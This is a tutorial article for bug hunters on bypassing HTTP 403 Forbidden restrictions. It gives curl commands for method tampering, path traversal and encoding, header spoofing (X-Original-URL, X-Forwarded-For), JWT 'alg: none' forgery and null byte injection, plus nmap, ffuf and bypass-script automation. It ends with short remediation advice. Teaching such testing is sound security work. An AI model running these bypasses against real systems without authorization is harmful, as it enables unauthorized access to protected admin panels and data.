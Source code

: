 ### **Introduction**

403 Forbidden errors are common in web applications, often protecting admin panels, internal APIs or sensitive endpoints. While they may seem like a dead end, misconfigurations in servers, proxies or access control systems can create cracks in the defense. In this article, we'll break down how 403 errors work, why they occur and share real-world techniques to bypass them, helping you access restricted resources during your bug hunting process.

#### **What is a 403 Forbidden Error?**

The 403 Forbidden error is an HTTP status code that means your request is understood by the server but you're not allowed to access the resource. Think of it as a bouncer at a club saying, "Yeah, I know who you are, but you're not on the list."

### **Common Causes of 403 Errors**

1. **IP Address Blocks or Whitelists**
    
2. **Improper Permission Configurations (ACL, IAM)**
    
3. **User-Agent, Referer or Method Restrictions**
    
4. **Misconfigured Reverse Proxies (NGINX, Apache)**
    
5. **File or Directory Permission Issues**
    
6. **Rate Limiting or Throttling**
    
7. **Authentication or Authorization Failures**
    
8. **Firewall or Security Software Blocks**
    
9. **Geographical Access Restrictions**
    

### **Top Techniques to Bypass 403 Forbidden**

#### **1. HTTP Method Tampering**

Use alternative HTTP methods like PUT, PATCH, DELETE, TRACE, OPTIONS to bypass weak filters.

Example:

```bash
curl -X OPTIONS --path-as-is https://example.com/private/
curl -X POST --path-as-is https://example.com/private/
```

##### What is --path-as-is?

This option tells curl to send the URL path exactly as provided, useful for bypassing normalization.

Example:

```bash
curl -X GET --path-as-is https://example.com/../admin/
```

#### **2. Header Manipulation**

Alter headers to trick the server.

Example:

```bash
curl -H "X-Original-URL: /admin" https://example.com/
curl -A "Mozilla/5.0" https://example.com/private/
```

#### **3. Path Fuzzing & Encoding**

Use encoded or malformed paths.

Example:

```bash
curl -g --path-as-is "https://example.com/%2e%2e/admin"
```

Try variations:

- `/admin/`
    
- `/..;/admin`
    
- `/admin.json`
    
- `/admin%2f`
    

#### **4. Parameter Tampering**

Append query strings to bypass path-only restrictions.

Example:

```bash
curl "https://example.com/admin?debug=true"
```

#### **5. JWT Token Tampering**

Modify JWTs to escalate privileges.

Steps:

1. Decode token at jwt.io
    
2. Modify payload (e.g. change "user" to "admin")
    
3. Set alg to `none` and send:
    

```bash
curl -H "Authorization: Bearer <MODIFIED_JWT>" https://example.com/admin
```

#### **6. Null Byte Injection**

```bash
curl --path-as-is "https://example.com/admin.php%00.html"
```

#### **7. HTTP Version Downgrade**

```bash
curl --http1.0 https://example.com/admin
```

#### **8. Proxy or IP Spoofing**

```bash
curl -H "X-Forwarded-For: 127.0.0.1" https://example.com/private/
```

#### **9. Switch HTTP/HTTPS**

```bash
curl http://example.com/private/
curl https://example.com/private/
```

#### **10. Alternate Subdomains & Ports**

Try:

- `https://admin.example.com/admin`
    
- `https://example.com:8080/admin`
    

#### **11. Skip Host Header**

Removing the Host header may default to internal values.

#### **12. Wayback Machine**

```bash
https://web.archive.org/web/*/https://example.com/secret-file.txt
```

### **Automating 403 Bypass**

#### Nmap

```bash
nmap --script http-methods -p80,443 example.com
```

#### FFUF

```bash
ffuf -w paths.txt:PATH -u https://example.com/PATH -mc 200
```

#### Burp Suite Extension

Use 403 Bypass extension to automate method, header, and path tricks.

#### 4-ZERO-3 Tool

```bash
bash 403-bypass.sh -u https://target.com/secret --exploit
```

### **Risks of 403 Bypass Vulnerabilities**

- **Unauthorized Access**
    
- **Data Breaches**
    
- **System Integrity Compromise**
    

### **Remediation**

- Strengthen access controls
    
- Avoid verbose error messages
    
- Monitor logs for anomalies
    

### **Conclusion**

403 bypass tricks reveal security gaps in web applications. Testing them responsibly helps organizations strengthen their access controls.

### **Disclaimer**

> _The content provided in this article is for educational purposes only. Always obtain proper authorization before testing security mechanisms._**